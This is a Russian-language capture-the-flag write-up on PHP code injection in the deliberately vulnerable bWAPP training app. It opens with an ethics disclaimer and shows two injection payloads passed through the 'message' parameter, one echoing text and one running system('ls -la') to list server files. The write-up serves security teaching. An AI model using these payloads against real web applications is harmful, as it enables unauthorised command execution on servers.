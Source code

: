 # PHP Code Injection
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, который содержит задачи, основанные на ***уязвимости внедрения PHP-кода***. (**A03:2021 – Injection**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Приложение
---

![[PhpiTarget.png]]

# Функционал
---

Приложение отображает текст, переданный через параметр `message`:

![[PhpiFunction.png]]

# Эксплуатация
---

Тестирование PoC нагрузки для внедрения PHP-кода:

``` PHP
?message=lol; echo "Hacked!"
```

![[PhpiPoc.png]]

Приложение уязвимо к внедрению PHP-кода!

Используя нагрузки на основе функции PHP `system()`, можно выполнять команды для просмотра файлов и выполнения других действий на сервере.

## Пейлоад

``` PHP
?message=lol; system("ls -la")
```

Исполнение нагрузки выведет все файлы в текущем каталоге с их правами доступа:

![[PhpiSucess.png]]
